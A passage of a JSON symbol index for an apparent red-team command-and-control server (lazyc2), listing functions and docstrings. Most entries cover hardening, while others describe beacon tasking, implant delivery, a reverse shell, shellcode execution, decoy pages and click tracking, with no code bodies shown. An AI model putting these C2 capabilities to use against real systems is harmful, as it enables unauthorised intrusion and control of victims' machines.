bind and closes\nimmediately. ``SO_REUSEADDR`` is set so that a recent close on the\nsame tuple does not raise a spurious ``EADDRINUSE``. The probe\nrefuses to bind a wildcard address unless the operator has\nexplicitly enabled :attr:`SecurityConfig.allow_unspecified_bind`,\nso the function doubles as a fail-closed sanitizer for the bind\ncandidate flowing in from operator-controlled payload values.\n\nArgs:\n    address: IPv4 address literal to test.\n    port: Port number to test. ``0`` lets the kernel pick.\n    sock_type: ``socket.SOCK_STREAM`` for TCP services or\n        ``socket.SOCK_DGRAM`` for UDP services such as DNS.\n\nReturns:\n    Tuple ``(success, errno_value)`` where ``errno_value`` is the\n    ``OSError.errno`` on failure and ``None`` on success. Returns\n    ``(False, errno.EACCES)`` when the address is a wildcard and\n    the operator has not opted in to all-interface binding.", "kind": "function", "line": 313, "name": "_probe_bind", "signature": "def _probe_bind(address, port, sock_type)"}, {"doc": "Return an address that can actually be bound to on this host.\n\nProbes each candidate with :func:`_probe_bind` and returns the first\naddress that succeeds. The resolver fails closed: the unspecified\naddress ``0.0.0.0`` is only ever offered when the operator has set\n``allow_unspecified_bind`` in :class:`SecurityConfig`. When every\ncandidate fails the probe, the configured loopback fallback is\nreturned so the caller never accidentally binds to every interface.\nThe probe uses the same socket type the caller will use, so UDP\nservices such as DNS are tested with ``SOCK_DGRAM``.\n\nArgs:\n    preferred: Explicit address to try first. When ``None`` the\n        address chosen by :func:`_listen_address` is used.\n    port: Port number for the probe. When ``0`` the kernel assigns\n        an ephemeral port so the test never collides with the real\n        service.\n    sock_type: Socket type matching the eventual server.\n\nReturns:\n    A bindable IPv4 address literal. Guaranteed to be the loopback\n    when no other candidate succeeds and the operator has not\n    explicitly opted in to binding on every interface.", "kind": "function", "line": 358, "name": "_resolve_bind_address", "signature": "def _resolve_bind_address(preferred, port, sock_type)"}, {"doc": "Optional structured JSON formatter for C2 access logs.", "kind": "class", "line": 423, "name": "_JsonLogFormatter", "signature": "class _JsonLogFormatter(Formatter)"}, {"doc": "Ensure the sessions directory exists with safe permissions.", "kind": "function", "line": 453, "name": "ensure_sessions_dir", "signature": "def ensure_sessions_dir()"}, {"doc": "Load dynamic routes from JSON file.", "kind": "function", "line": 464, "name": "load_routes", "signature": "def load_routes()"}, {"doc": "Save dynamic routes to JSON file with safe permissions.", "kind": "function", "line": 474, "name": "save_routes", "signature": "def save_routes(routes)"}, {"doc": "Module-level boolean adapter for :func:`lazyc2.security.validators.validate_route_path`.\n\nReturns ``True`` when ``route_path`` passes the canonical validator\nand ``False`` otherwise. Existing call sites that only need a\nboolean signal can keep their current shape; new call sites should\nprefer the underlying ``(is_valid, error)`` tuple for richer\ndiagnostics.", "kind": "function", "line": 488, "name": "validate_route_path", "signature": "def validate_route_path(route_path)"}, {"doc": "Module-level boolean adapter for :func:`lazyc2.security.validators.validate_template_name`.\n\nReturns ``True`` when ``template_name`` passes the canonical\nvalidator and ``False`` otherwise.", "kind": "function", "line": 501, "name": "validate_template_name", "signature": "def validate_template_name(template_name)"}, {"doc": "Verify ``template_path`` resolves inside ``app.template_folder``.\n\nDelegates to the canonical traversal validator in\n:mod:`lazyc2.security.validators` so the confinement check stays\nconsistent with every other security-sensitive call site. Retained\non the module surface because operators wire it into custom\ntemplates from external scripts.\n\nArgs:\n    template_path: Candidate filesystem path produced by the caller.\n    template_name: Expected template basename. The candidate must\n        match this filename exactly, preventing the caller from\n        substituting an unrelated path that happens to live inside\n        the template folder.\n\nReturns:\n    True when the resolved path is strictly equal to\n    ``app.template_folder / template_name`` and lives inside the\n    template folder; False otherwise.", "kind": "function", "line": 511, "name": "is_safe_template_path", "signature": "def is_safe_template_path(template_path, template_name)"}, {"doc": "Return a JSON-safe projection of ``value`` without exception details.\n\nDelegates to the centralised :class:`OutputSanitizer` so the same\nbounded-depth, exception-stripping projection is applied across\nevery C2 endpoint that returns shell output.", "kind": "function", "line": 541, "name": "_sanitize_command_output", "signature": "def _sanitize_command_output(value)"}, {"doc": "Check whether a session file is binary based on its header bytes.\n\nAccepts a single basename, never a path. Reconstructing the absolute\npath inside this function prevents a malicious caller from supplying\ntraversal sequences to read host files outside ``SESSIONS_DIR``.\n\nArgs:\n    safe_filename: Basename of a candidate file within ``SESSIONS_DIR``.\n\nReturns:\n    True only when the resolved file lives inside ``SESSIONS_DIR`` and\n    its leading bytes match a known binary header. Any validation\n    failure or I/O error returns False.", "kind": "function", "line": 551, "name": "is_binary", "signature": "def is_binary(safe_filename)"}, {"kind": "function", "line": 592, "name": "clean_expired_tokens", "signature": "def clean_expired_tokens()"}, {"doc": "Extract only the JSON content between ```json and ```, discarding everything else.", "kind": "function", "line": 600, "name": "clean_json", "signature": "def clean_json(text)"}, {"doc": "Resolve ``name`` strictly within ``allowed_base``.\n\nReturns the absolute, real path only if it lives under ``allowed_base``.\nReturns ``None`` for any traversal attempt or symlink escape. CodeQL\nrecognises this commonpath-based pattern as a path sanitiser.", "kind": "function", "line": 611, "name": "_resolve_within", "signature": "def _resolve_within(allowed_base, name)"}, {"doc": "Load a YAML file safely with error handling and default values.", "kind": "function", "line": 628, "name": "load_yaml_safely", "signature": "def load_yaml_safely(file_path)"}, {"kind": "class", "line": 710, "name": "Handler", "signature": "class Handler(FileSystemEventHandler)"}, {"kind": "function", "line": 737, "name": "get_karma_name", "signature": "def get_karma_name(elo)"}, {"kind": "function", "line": 754, "name": "fromjson", "signature": "def fromjson(value)"}, {"kind": "function", "line": 758, "name": "run_shell", "signature": "def run_shell()"}, {"doc": "Loads the banners from the JSON file.", "kind": "function", "line": 768, "name": "load_banners", "signature": "def load_banners()"}, {"kind": "function", "line": 788, "name": "load_mitre_data", "signature": "def load_mitre_data()"}, {"kind": "function", "line": 794, "name": "load_event_config", "signature": "def load_event_config()"}, {"kind": "function", "line": 802, "name": "load_notifications", "signature": "def load_notifications()"}, {"kind": "function", "line": 820, "name": "implants_check", "signature": "def implants_check()"}, {"doc": "Analyzes BloodHound nodes and edges to extract critical attack vectors for AD compromise.\n\nArgs:\n    nodes (list): List of node dictionaries from process_bloodhound_zip.\n    edges (list): List of edge dictionaries from process_bloodhound_zip.\n\nReturns:\n    dict: Structured data containing critical attack vectors.", "kind": "function", "line": 837, "name": "extract_attack_vectors", "signature": "def extract_attack_vectors(nodes, edges)"}, {"doc": "Processes a BloodHound ZIP file to extract nodes and edges for graph visualization.\n\nArgs:\n    zip_filepath (str): The path to the BloodHound ZIP file.\n\nReturns:\n    tuple: (nodes, edges, error_message, ad_data). Nodes, edges, attack vectors for viz.js, and error message.", "kind": "function", "line": 924, "name": "process_bloodhound_zip", "signature": "def process_bloodhound_zip(zip_filepath)"}, {"kind": "function", "line": 1022, "name": "start_watching", "signature": "def start_watching()"}, {"kind": "function", "line": 1038, "name": "load_tasks", "signature": "def load_tasks()"}, {"kind": "function", "line": 1046, "name": "create_cves", "signature": "def create_cves()"}, {"kind": "function", "line": 1052, "name": "load_cves", "signature": "def load_cves()"}, {"kind": "function", "line": 1060, "name": "save_cves", "signature": "def save_cves(cves)"}, {"kind": "function", "line": 1065, "name": "create_report", "signature": "def create_report()"}, {"kind": "function", "line": 1071, "name": "save_tasks", "signature": "def save_tasks(tasks)"}, {"kind": "function", "line": 1076, "name": "load_note", "signature": "def load_note()"}, {"kind": "function", "line": 1094, "name": "aumentar_elo", "signature": "def aumentar_elo(user_id, cantidad)"}, {"kind": "function", "line": 1124, "name": "save_note", "signature": "def save_note(content)"}, {"kind": "function", "line": 1130, "name": "escape_js", "signature": "def escape_js(s)"}, {"doc": "Sanitize HTML by stripping dangerous tags and event handlers.\n\nThe implementation delegates to\n:func:`lazyc2.security.html_sanitizer.sanitize_html`, which is\nbacked by ``bleach`` and the constants in\n:mod:`lazyc2.security.constants`. The legacy regex-based\nimplementation lived in this module but is no longer used.", "kind": "function", "line": 1155, "name": "_sanitize_html", "signature": "def _sanitize_html(raw_html)"}, {"kind": "function", "line": 1167, "name": "markdown_to_html", "signature": "def markdown_to_html(text)"}, {"doc": "Convert objects to serializable format.", "kind": "function", "line": 1175, "name": "to_serializable", "signature": "def to_serializable(obj)"}, {"doc": "Recursively convert data to serializable format.", "kind": "function", "line": 1182, "name": "make_serializable", "signature": "def make_serializable(data)"}, {"doc": "Prevent CSV injection by prefixing formula-starting values.", "kind": "function", "line": 1192, "name": "_sanitize_csv_field", "signature": "def _sanitize_csv_field(value, maxlen)"}, {"doc": "Return the current UTC timestamp as an ISO-8601 string.", "kind": "function", "line": 1200, "name": "datetime_now_iso", "signature": "def datetime_now_iso()"}, {"doc": "Return a sanitised, path-confined command queue file path for a beacon.\n\nSanitises the client_id, builds the queue path relative to ALLOWED_DIRECTORY,\nand verifies via os.path.realpath that the resolved path does not escape the\nallowed base directory.\n\nArgs:\n    client_id: Raw beacon id from the request.\n\nReturns:\n    The validated absolute real path to the cmd_<safe_id>.json queue file.\n\nRaises:\n    ValueError: If the sanitised client_id is empty or the resolved path\n        escapes the allowed directory.", "kind": "function", "line": 1205, "name": "_secure_command_queue_path", "signature": "def _secure_command_queue_path(client_id)"}, {"doc": "Return the JSONL history file path for a sanitised beacon client id.", "kind": "function", "line": 1235, "name": "_beacon_records_path", "signature": "def _beacon_records_path(client_id)"}, {"doc": "Append one beacon result record to the persistent JSONL history.\n\nKeeps the full command/result timeline for a beacon so both the Flask\nGUI and GUI2 can replay history instead of only the latest result.\n\nArgs:\n    record: The normalised beacon record dict (already sanitised).\n\nReturns:\n    True when the append succeeded, False otherwise.", "kind": "function", "line": 1242, "name": "_append_beacon_record", "signature": "def _append_beacon_record(record)"}, {"doc": "Read the ordered JSONL history for a sanitised beacon client id.\n\nArgs:\n    client_id: The beacon id used to locate its history file.\n\nReturns:\n    A list of record dicts in chronological order (oldest first).", "kind": "function", "line": 1272, "name": "_read_beacon_records", "signature": "def _read_beacon_records(client_id)"}, {"doc": "Escape special characters in a string for JavaScript.", "kind": "function", "line": 1318, "name": "escape_js_string", "signature": "def escape_js_string(value)"}, {"doc": "Verify credentials. Checks RBACStore first, falls back to CLI creds.", "kind": "function", "line": 1330, "name": "check_auth", "signature": "def check_auth(username, password)"}, {"doc": "Requests authentication.", "kind": "function", "line": 1345, "name": "authenticate", "signature": "def authenticate()"}, {"doc": "Require Basic auth credentials or a valid Flask-Login session.\n\nUsed on endpoints that are driven both by the CLI (which sends HTTP\nBasic credentials) and by the GUI dashboard deep the operator has\nalready authenticated through ``/login`` (session cookie). Either\nchannel satisfies the gate.", "kind": "function", "line": 1354, "name": "requires_auth_or_session", "signature": "def requires_auth_or_session(f)"}, {"kind": "function", "line": 1375, "name": "requires_auth", "signature": "def requires_auth(f)"}, {"doc": "Decorator that enforces the per-session CSRF token.\n\nThe CSRF policy is the module-level :data:`_csrf_policy`. When the\npayload key ``c2_csrf_enabled`` is ``False`` the decorator is a\nno-op so existing operators can disable the gate without touching\nthe codebase.", "kind": "function", "line": 1386, "name": "csrf_protect", "signature": "def csrf_protect(view)"}, {"kind": "function", "line": 1407, "name": "aicmd_deepseek", "signature": "def aicmd_deepseek(cmd)"}, {"kind": "function", "line": 1521, "name": "aicmd", "signature": "def aicmd(cmd)"}, {"doc": "Busca un término en un DataFrame, manejando listas, dicts y distintas estructuras.", "kind": "function", "line": 1626, "name": "search_database", "signature": "def search_database(term, data_path)"}, {"kind": "function", "line": 1681, "name": "execute_command", "signature": "def execute_command(command)"}, {"kind": "class", "line": 1710, "name": "CustomDNSResolver", "signature": "class CustomDNSResolver(BaseResolver)"}, {"doc": "Emit a single structured log line describing why DNS could not bind.\n\nCategorising the ``errno`` lets the operator see at a glance whether\nthe problem is privileges, an inactive VPN interface or a port that\nis already taken. The exception message itself is not logged because\nit can include host-specific paths on some platforms.\n\nArgs:\n    address: Address that the bind was attempted on.\n    error_number: ``OSError.errno`` returned by the probe, or\n        ``None`` when no errno could be obtained.", "kind": "function", "line": 1776, "name": "_log_dns_bind_failure", "signature": "def _log_dns_bind_failure(address, error_number)"}, {"doc": "Start the C2 DNS server, gracefully degrading when binding is unsafe.\n\nThe DNS server is optional and runs in a daemon thread, so any\nuncaught exception in this function would be surfaced by the\nthreading runtime onto stderr and pollute the operator's terminal.\nAll errors are therefore funnelled through the logger and the\nfunction returns cleanly instead of letting the thread crash.\n\nBinding is attempted only after a UDP probe confirms the chosen\naddress is available, which avoids the common ``EADDRNOTAVAIL``\nfailure seen when ``lhost`` points to an inactive VPN interface.\nThe server can be disabled entirely via the ``enable_c2_dns``\npayload flag.", "kind": "function", "line": 1815, "name": "start_dns_server", "signature": "def start_dns_server()"}, {"doc": "Establish a TCP bridge between a local port and a remote host.", "kind": "function", "line": 1855, "name": "tcp_bridge", "signature": "def tcp_bridge(local_port, remote_host, remote_port)"}, {"doc": "Handle communication between the client and the remote server.", "kind": "function", "line": 1879, "name": "handle_client", "signature": "def handle_client(client_socket, remote_host, remote_port)"}, {"doc": "Serve a decoy page to non-operator IPs when decoy mode is enabled.\n\nBehaviour is driven by ``c2_decoy_mode`` in payload.json:\n\n- ``\"off\"``: disabled; every request proceeds to normal handling.\n- ``\"page\"`` (default): requests from IPs outside the operator allowlist\n  receive a fake decoy page. This preserves the legacy honeypot look.\n- ``\"deny\"``: requests from non-operator IPs receive HTTP 403 instead\n  of a misleading page. Use this when the decoy is not wanted.\n\nThe operator allowlist is ``lhost``, ``127.0.0.1`` and the entries of\n``c2_operator_ip_allowlist``.", "kind": "function", "line": 1898, "name": "decoy", "signature": "def decoy()"}, {"kind": "function", "line": 1936, "name": "encrypt_data", "signature": "def encrypt_data(data)"}, {"kind": "function", "line": 1945, "name": "decrypt_data", "signature": "def decrypt_data(encrypted_data, is_file)"}, {"doc": "Configura el tamaño de la terminal", "kind": "function", "line": 1958, "name": "set_winsize", "signature": "def set_winsize(fd, row, col, xpix, ypix)"}, {"doc": "Lectura continua del PTY y envío por WebSocket", "kind": "function", "line": 1964, "name": "read_and_forward_pty_output", "signature": "def read_and_forward_pty_output()"}, {"doc": "Reads the sessions/hostsdiscovery.txt file and returns a list of discovered hosts.\nAlso reads IPs from scan_discovery*.csv files in the sessions directory.", "kind": "function", "line": 1981, "name": "get_discovered_hosts", "signature": "def get_discovered_hosts()"}, {"kind": "function", "line": 2031, "name": "get_local_ip_addresses", "signature": "def get_local_ip_addresses()"}, {"doc": "Elimina datos sensibles del diccionario JSON.\nAdaptar esta función según la estructura específica de tu payload.json.", "kind": "function", "line": 2056, "name": "sanitize_json", "signature": "def sanitize_json(data)"}, {"doc": "Agrega datos dinámicos al diccionario JSON si es necesario,\nbasándose en el contenido del diccionario 'data'.\n\nAlso normalises boolean fields that Go implants expect as strings.", "kind": "function", "line": 2086, "name": "add_dynamic_data", "signature": "def add_dynamic_data(data)"}, {"doc": "Get the client's IP address, handling proxies.", "kind": "function", "line": 2108, "name": "get_client_ip", "signature": "def get_client_ip()"}, {"doc": "Collect comprehensive request details.", "kind": "function", "line": 2117, "name": "get_request_details", "signature": "def get_request_details()"}, {"doc": "Append request data to the JSON log file with safe permissions.", "kind": "function", "line": 2152, "name": "save_to_log", "signature": "def save_to_log(data)"}, {"doc": "Parse access.log for entries matching the given short URL.", "kind": "function", "line": 2174, "name": "parse_access_log_for_short_url", "signature": "def parse_access_log_for_short_url(short_url)"}, {"doc": "Parse execution log for the given implante, returning execution events.", "kind": "function", "line": 2196, "name": "parse_execution_log", "signature": "def parse_execution_log(implante)"}, {"doc": "Load implant configuration from JSON file.", "kind": "function", "line": 2222, "name": "load_implant_config", "signature": "def load_implant_config(implante)"}, {"doc": "Load short URLs from JSON file, creating it if it doesn't exist.", "kind": "function", "line": 2232, "name": "load_short_urls", "signature": "def load_short_urls()"}, {"doc": "Save short URLs to JSON file.", "kind": "function", "line": 2252, "name": "save_short_urls", "signature": "def save_short_urls(data)"}, {"doc": "Validate if the input is a valid URL or existing local file path.", "kind": "function", "line": 2262, "name": "is_valid_url", "signature": "def is_valid_url(url)"}, {"doc": "Analyze behavioral events using Groq AI to generate risk scores.", "kind": "function", "line": 2340, "name": "analyze_behavioral_data", "signature": "def analyze_behavioral_data(behavioral_events)"}, {"doc": "Analyze campaign progress and suggest adaptations using Grok AI.", "kind": "function", "line": 2368, "name": "analyze_campaign_progress", "signature": "def analyze_campaign_progress(campaign_id, events)"}, {"kind": "function", "line": 2406, "name": "_metrics_before_request", "signature": "def _metrics_before_request()"}, {"doc": "Force HTTP -> HTTPS in PROD when the policy says so.\n\nReturns:\n    A redirect response when the policy decides the request must be\n    upgraded; otherwise ``None`` so Flask continues handling it.", "kind": "function", "line": 2412, "name": "_enforce_https_redirect", "signature": "def _enforce_https_redirect()"}, {"doc": "Redirect users flagged with ``must_change_password`` to the\nrotation form until they set a strong password.", "kind": "function", "line": 2432, "name": "_enforce_password_rotation", "signature": "def _enforce_password_rotation()"}, {"kind": "function", "line": 2455, "name": "_add_security_headers", "signature": "def _add_security_headers(response)"}, {"doc": "Resolve the Flask secret key from the operator environment or disk.\n\nThe lookup order is:\n\n1. The ``LAZYOWN_SECRET_KEY`` environment variable, which lets\n   deployments inject a pre-provisioned key without touching disk.\n2. A persisted hex-encoded key under ``sessions/.secret_key`` managed\n   by :class:`lazyc2.security.services.SecretKeyManager`.\n\nReturns:\n    The hex-encoded secret key string ready to assign to\n    ``app.secret_key``.", "kind": "function", "line": 2475, "name": "_load_or_create_secret_key", "signature": "def _load_or_create_secret_key()"}, {"kind": "function", "line": 2522, "name": "_handle_404", "signature": "def _handle_404(_error)"}, {"kind": "function", "line": 2527, "name": "_handle_405", "signature": "def _handle_405(_error)"}, {"doc": "Generic error handler that never leaks stack traces or exception messages.\n\nEven when ``config.enable_c2_debug`` is on, the response body stays\ngeneric. Verbose details are still logged server-side for operators.", "kind": "function", "line": 2532, "name": "_handle_exception", "signature": "def _handle_exception(error)"}, {"doc": "Create the shared CLI shell on first use (double-checked lock).\n\nThe import of ``lazyown`` stays inside this function so importing\nthis module never pulls the CLI tree. The boot sequence matches\nthe historic eager startup: StringIO stdout plus the ``p`` and\n``create_session_json`` commands.\n\nReturns:\n    The shared LazyOwnShell instance.", "kind": "function", "line": 2556, "name": "_init_shell", "signature": "def _init_shell()"}, {"doc": "Serve the lazily created ``shell`` attribute (PEP 562).\n\nOnly used when this file is imported as a module. When executed\nas a script, in-module reads go through the ``shell`` proxy below.\n\nArgs:\n    name: Requested module attribute name.\n\nReturns:\n    The shared shell for ``shell``.\n\nRaises:\n    AttributeError: For any other missing attribute.", "kind": "function", "line": 2583, "name": "__getattr__", "signature": "def __getattr__(name)"}, {"doc": "Stand-in for the shared CLI shell until first real use.\n\nAttribute reads and writes forward to the lazily created shell,\nso every existing ``shell.*`` call site works unchanged while\nmodule load no longer builds the CLI tree.", "kind": "class", "line": 2603, "name": "_LazyShellProxy", "signature": "class _LazyShellProxy"}, {"doc": "Persist the one-time admin password to an owner-only file.\n\nWrites the credential to ``sessions/<prefix>_initial_admin.txt`` with\nrestrictive permissions instead of echoing it to the console, which may\nbe captured by terminal scrollback or process logging.\n\nArgs:\n    prefix: Logging/identifier prefix (``rbac`` or ``users``).\n    password: The one-time admin password to persist.", "kind": "function", "line": 2650, "name": "_persist_bootstrap_password", "signature": "def _persist_bootstrap_password(prefix, password)"}, {"doc": "Create the initial admin account only on a truly fresh install.\n\nA cryptographically random one-time password is generated and printed\nexactly once; the account is flagged with ``must_change_password`` so\nthe operator is forced to rotate it on first login.\n\nIf ``users.json`` exists but is empty or unreadable, the store is left\nuntouched: overwriting an existing operator database is never acceptable.", "kind": "function", "line": 2670, "name": "_bootstrap_initial_admin", "signature": "def _bootstrap_initial_admin()"}, {"kind": "class", "line": 2946, "name": "User", "signature": "class User(UserMixin)"}, {"kind": "function", "line": 2959, "name": "_get_rbac_user_obj", "signature": "def _get_rbac_user_obj(flask_user)"}, {"kind": "function", "line": 2969, "name": "load_users", "signature": "def load_users()"}, {"kind": "function", "line": 2979, "name": "save_users", "signature": "def save_users(users)"}, {"kind": "function", "line": 2990, "name": "load_data", "signature": "def load_data()"}, {"kind": "function", "line": 3007, "name": "load_user", "signature": "def load_user(user_id)"}, {"doc": "Custom tojson filter to handle non-serializable objects.", "kind": "function", "line": 3022, "name": "tojson_filter", "signature": "def tojson_filter(value)"}, {"kind": "function", "line": 3029, "name": "index", "signature": "def index()"}, {"kind": "function", "line": 3179, "name": "send_command", "signature": "def send_command(client_id)"}, {"doc": "Copy linpeas/winpeas to sessions/ from known local paths.\n\nReturns the destination filename when successful, None otherwise.", "kind": "function", "line": 3272, "name": "_try_copy_privesc_tool", "signature": "def _try_copy_privesc_tool(platform)"}, {"doc": "Build the download+execute command for linpeas (Linux) or winpeas (Windows).\n\nTries to copy the tool locally first, then constructs a command that\ndownloads from the C2 server with a public GitHub fallback.", "kind": "function", "line": 3292, "name": "_build_privesc_command", "signature": "def _build_privesc_command(platform)"}, {"kind": "function", "line": 3323, "name": "receive_result", "signature": "def receive_result(client_id)"}, {"kind": "function", "line": 3864, "name": "issue_command", "signature": "def issue_command()"}, {"kind": "function", "line": 3878, "name": "upload", "signature": "def upload()"}, {"kind": "function", "line": 3915, "name": "download_file", "signature": "def download_file()"}, {"doc": "Serve a file from ``sessions/temp_uploads`` through :class:`SafeFileService`.\n\nArgs:\n    file_path: Operator-supplied path component. The :class:`SafeFileService`\n        is responsible for resolving it canonically and rejecting any\n        attempt to escape the base directory (including Windows-style\n        ``..\\`` traversal and null-byte injection).\n\nReturns:\n    A Flask response with the AES-encrypted payload, or a 403/404\n    error JSON when the path is unsafe or missing.", "kind": "function", "line": 3942, "name": "serve_file", "signature": "def serve_file(file_path)"}, {"doc": "Return an absolute path strictly contained inside the template folder.\n\nOperator-supplied template names are never trusted. The resolver\nenforces three independent gates so a missed upstream check still\nfails closed:\n\n1. The shared :func:`validate_template_name` validator rejects\n   traversal sequences, length abuse, and disallowed characters.\n2. The basename is rebuilt from a local ``re.fullmatch`` group so\n   the value joined into the filesystem ``Path`` is a literal\n   derived from the regex match rather than the raw input.\n3. The rebuilt basename must exist in the precomputed allowlist of\n   template files actually present on disk, so any value that\n   slipped past the regex still cannot reach :meth:`Path.is_file`.\n\nArgs:\n    template_name: A template basename. Must match\n        :data:`lazyc2.security.constants.TEMPLATE_NAME_PATTERN`.\n\nReturns:\n    The absolute filesystem path on success; ``None`` when the\n    basename fails validation, escapes ``app.template_folder`` or\n    does not exist.", "kind": "function", "line": 3977, "name": "_resolve_secure_template_path", "signature": "def _resolve_secure_template_path(template_name)"}, {"doc": "Register a new operator-supplied dynamic route bound to a template.\n\nAll validation delegates to the canonical validators in\n:mod:`lazyc2.security.validators` so the regex, length limits, and\ntraversal checks remain single-source-of-truth.\n\nReturns:\n    A Flask response. On GET the registration form is rendered. On\n    POST the new route is persisted and the operator is redirected\n    back to the form with a success or error message.", "kind": "function", "line": 4044, "name": "create_route", "signature": "def create_route()"}, {"doc": "Handle dynamic routes based on stored route-to-template mappings.", "kind": "function", "line": 4113, "name": "dynamic_route", "signature": "def dynamic_route(route_path, data)"}, {"doc": "Log request details to JSON file.", "kind": "function", "line": 4209, "name": "log", "signature": "def log(data)"}, {"doc": "Serve the favicon.ico file.", "kind": "function", "line": 4227, "name": "favicon", "signature": "def favicon()"}, {"doc": "Render the operator command palette browser.\n\nReads ``cli/command_index.json`` via :func:`cli.palette.load_index`, builds\na flat template context with :func:`cli.palette_command.build_palette_view`\nand serves :file:`templates/palette.html`. The full payload is embedded in\nthe page so the client-side JavaScript can filter without round-trips.", "kind": "function", "line": 4240, "name": "palette_view", "signature": "def palette_view()"}, {"doc": "JSON catalogue feed for the global Cmd+K / Ctrl+K overlay.\n\nSame payload as :func:`palette_view` but without HTML chrome — every C2\ntemplate injects a small client-side overlay that fetches this endpoint\nonce on first open and renders results locally so navigation between\npages stays cheap. A missing command index returns 503 with a JSON error\nso the overlay can fall back to a hint instead of breaking the page. The\nhandler is rate-limited via ``c2_palette_limit`` (default ``60 per minute``)\nso a runaway browser tab cannot drown the operator session.", "kind": "function", "line": 4267, "name": "palette_api", "signature": "def palette_api()"}, {"kind": "function", "line": 4288, "name": "api_data", "signature": "def api_data()"}, {"kind": "function", "line": 4311, "name": "_api_data_inner", "signature": "def _api_data_inner()"}, {"doc": "Create multiple short URLs for a single original URL.", "kind": "function", "line": 4450, "name": "create_short_url", "signature": "def create_short_url()"}, {"doc": "Serve tracking page and log behavioral data.", "kind": "function", "line": 4478, "name": "track_interaction", "signature": "def track_interaction(short_url)"}, {"kind": "function", "line": 4503, "name": "update_short_url", "signature": "def update_short_url(short_url)"}, {"kind": "function", "line": 4530, "name": "redirect_to_file", "signature": "def redirect_to_file(short_url)"}, {"doc": "Serve nmap HTML report assets from the sessions directory over HTTPS.\n\nAll untrusted path components are resolved through\n:class:`SessionPathResolver`, which encapsulates the allowlist\nregex, depth limit and realpath containment checks so CodeQL\ndata-flow analysis can prove the path stays under the sessions\ndirectory in a single, audited code path.", "kind": "function", "line": 4558, "name": "webserver_report", "signature": "def webserver_report(filename)"}, {"doc": "Serve implant stage files by name, enforcing strict containment.\n\nOnly files explicitly registered in the operator-controlled short URL\nregistry (implant delivery) or the fixed implant stage names are\nserved. Captured credentials, hashes, loot and other session files are\nnever exposed through this unauthenticated route.", "kind": "function", "line": 4578, "name": "download_files", "signature": "def download_files(filename)"}, {"kind": "function", "line": 4630, "name": "view_yaml", "signature": "def view_yaml()"}, {"doc": "Execute one shell command and return a sanitised, JSON-safe result.\n\nThe handler is wrapped in a defence-in-depth boundary: every code\npath that could surface exception state to the HTTP client is\nfunnelled through :func:`_sanitize_command_output`, and any\nexception escaping the shell invocation is converted into a generic\nerror so internal class names, stack traces and file paths never\nreach the caller.\n\nIn addition the command must clear :class:`CommandAllowlist`; the\nfirst whitespace-delimited token must be on the configured list and\nno shell metacharacter is permitted anywhere in the payload. The\ndecision (allowed or denied) is appended to the audit log.", "kind": "function", "line": 4737, "name": "run_command", "signature": "def run_command()"}, {"kind": "function", "line": 4806, "name": "get_output", "signature": "def get_output()"}, {"kind": "function", "line": 4833, "name": "run_shellcode", "signature": "def run_shellcode()"}, {"kind": "function", "line": 4842, "name": "get_results", "signature": "def get_results()"}, {"doc": "Return the password used to authenticate to the /lazyos reverse shell.\n\nWhen ``c2_reverse_shell_password`` is configured and meets the minimum\nlength (12 chars), that value is used. Otherwise a cryptographically\nrandom 32-byte hex token is generated once per process lifetime,\npersisted owner-only under ``sessions/.reverse_shell_password`` for\nthe authenticated operator, and never written to logs.\n\nReturns:\n    The active reverse-shell authentication password.", "kind": "function", "line": 4849, "name": "_resolve_reverse_shell_password", "signature": "def _resolve_reverse_shell_password()"}, {"kind": "function", "line": 4905, "name": "send_lcommand", "signature": "def send_lcommand(ip, port)"}, {"kind": "function", "line": 4938, "name": "chatbot", "signature": "def chatbot()"}, {"kind": "function", "line": 4954, "name": "vuln", "signature": "def vuln()"}, {"kind": "function", "line": 4993, "name": "taskbot", "signature": "def taskbot()"}, {"kind": "function", "line": 5009, "name": "search", "signature": "def search()"}, {"kind": "function", "line": 5025, "name": "script", "signature": "def script()"}, {"kind": "function", "line": 5041, "name": "redop", "signature": "def redop()"}, {"kind": "function", "line": 5060, "name": "adversary", "signature": "def adversary()"}, {"kind": "function", "line": 5076, "name": "generalbot", "signature": "def generalbot()"}, {"kind": "function", "line": 5092, "name": "csv_to_html", "signature": "def csv_to_html()"}, {"kind": "function", "line": 5143, "name": "search_results", "signature": "def search_results()"}, {"kind": "function", "line": 5191, "name": "graph", "signature": "def graph()"}, {"kind": "function", "line": 5200, "name": "task", "signature": "def task(task_id)"}, {"kind": "function", "line": 5215, "name": "get_tasks", "signature": "def get_tasks()"}, {"kind": "function", "line": 5225, "name": "tasks", "signature": "def tasks()"}, {"kind": "function", "line": 5235, "name": "edit_task", "signature": "def edit_task(task_id)"}, {"kind": "function", "line": 5269, "name": "cves", "signature": "def cves()"}, {"kind": "function", "line": 5295, "name": "cve", "signature": "def cve(cve_id)"}, {"kind": "function", "line": 5310, "name": "edit_cve", "signature": "def edit_cve(cve_id)"}, {"kind": "function", "line": 5344, "name": "edit_notes", "signature": "def edit_notes()"}, {"kind": "function", "line": 5362, "name": "get_notes", "signature": "def get_notes()"}, {"kind": "function", "line": 5372, "name": "view_note", "signature": "def view_note()"}, {"kind": "function", "line": 5382, "name": "push_notification", "signature": "def push_notification()"}, {"kind": "function", "line": 5409, "name": "edit_event", "signature": "def edit_event(event_name)"}, {"kind": "function", "line": 5444, "name": "get_event_config", "signature": "def get_event_config()"}, {"kind": "function", "line": 5451, "name": "get_event_config_view", "signature": "def get_event_config_view()"}, {"kind": "function", "line": 5486, "name": "aicmd_view", "signature": "def aicmd_view()"}, {"kind": "function", "line": 5511, "name": "get_events", "signature": "def get_events()"}, {"kind": "function", "line": 5543, "name": "list_tools", "signature": "def list_tools()"}, {"kind": "function", "line": 5553, "name": "create_tool", "signature": "def create_tool()"}, {"kind": "function", "line": 5580, "name": "view_tool", "signature": "def view_tool(toolname)"}, {"kind": "function", "line": 5611, "name": "update_tool", "signature": "def update_tool(toolname)"}, {"kind": "function", "line": 5659, "name": "delete_tool", "signature": "def delete_tool(toolname)"}, {"kind": "function", "line": 5694, "name": "register", "signature": "def register()"}, {"kind": "function", "line": 5753, "name": "login", "signature": "def login()"}, {"kind": "function", "line": 5800, "name": "mfa_setup", "signature": "def mfa_setup()"}, {"doc": "Serve a locally-generated QR code SVG for MFA setup.\n\nZero external API calls. The QR code is generated server-side using\npure Python (no external dependencies beyond pyotp). Works offline.", "kind": "function", "line": 5874, "name": "mfa_qr", "signature": "def mfa_qr(username)"}, {"kind": "function", "line": 5896, "name": "mfa_verify", "signature": "def mfa_verify()"}, {"kind": "function", "line": 5944, "name": "admin_users", "signature": "def 